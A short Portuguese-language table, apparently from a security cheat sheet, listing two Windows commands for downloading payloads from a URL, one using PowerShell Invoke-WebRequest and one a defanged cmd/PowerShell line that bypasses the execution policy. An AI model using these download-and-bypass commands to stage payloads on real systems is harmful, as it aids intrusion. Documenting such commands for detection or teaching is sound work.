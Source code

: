| COMANDO | DESCRIÇÃO |
|--------------------------------------------|--------------------------------------------------------------------------------------|
| powershell Invoke-webrequest -URI <URL> -outfile <file_location_on_system> | Comando utilizado para download de cargas de uma determinada URL e indicação de path |

| cmd[.]exe /c powershell[.]exe -ExecutionPolicy ByPass -WindowStyle Normal (New-Object System[.]Net[.]WebClient).DownloadFile('<URL>', '<LOCAL A SER SALVO>'); | | Comando utilizado para baixar um arquivo via CMD e salvá-lo em um local específico no sistema |
